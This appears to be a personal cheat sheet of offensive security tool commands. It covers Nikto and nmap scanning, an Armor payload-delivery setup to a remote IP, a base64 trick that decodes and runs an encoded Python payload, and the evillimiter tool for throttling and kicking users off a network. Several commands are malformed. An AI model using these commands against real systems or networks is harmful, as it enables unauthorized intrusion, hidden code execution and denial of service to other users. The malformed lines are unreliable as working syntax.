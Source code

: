 ```exits the terminal without saving history ```

####### NIKTO VULN-SCANNER ######### 
# https://github.com/sullo/nikto/wiki
# http://bit.ly/NiktoScan

brew install nikto 
sudo apt install nikto 
## SSL 
nikto -h domain.org -ssl # ssl scan 
ipcalc local_ip_domain 
## IP ADDRESS FROM NMAP 
nmap -p local_ip_doman/24 -oG nmap_out.txt 
cat nmap_out.txt | awk '/Up$/{print $2}' | nikto -h | cat >> targetIP.txt # awk returns just IP address.. may ahve to play around with $ val 
cat targetIP.txt 
nikto -h targetIP.txt 
## Webserver 
nikto -h www.hell.com | cat >> niktoResults.txt 
nikto -h www.domain.com -Format msf+ 


###### NESSUSS ######
# TO DISCOVER NETWORK HOSTS 
# IDENTIFIY CRITICAL INFO / PERFORM VULN SCAN 
# GENERATE REPORTS 
https://www.tenable.com/products/nessus
https://localhost:8834/

git clone https://github.com/tokyoneon/Armor
cd Armor/
chmod +x armor.sh
echo 'ls -la' >/tmp/payload.txt
./armor.sh /tmp/payload.txt 1.2.3.4 443



cat thisfileisevil.py | base64
python -c "$(printf '%s' 'ENCODED-PAYLOAD-HERE' | base64 -D)"

############


## EVIL LIMITER--> TO DE AUTH AND KICK OFF NETWORK USERS ###
git clone https://github.com/bitbrute/evillimiter.git
cd evillimiter
sudo python3 setup.py install
sudo evillimiter
limit 1,2,3,4,5,6 200kbit ## LIMIT OR BLOCK NETWORK USERS 
block 3
hosts
free all

	
			
					
					

		
![hacking_tools_cheat_sheet_v2 0-2](https://github.com/user-attachments/assets/73027b21-455d-4a17-b455-fe5e3285d939)
![hacking_tools_cheat_sheet_v2 0-1](https://github.com/user-attachments/assets/28c4d719-57b6-4ca7-b1cd-9358c716d260)
```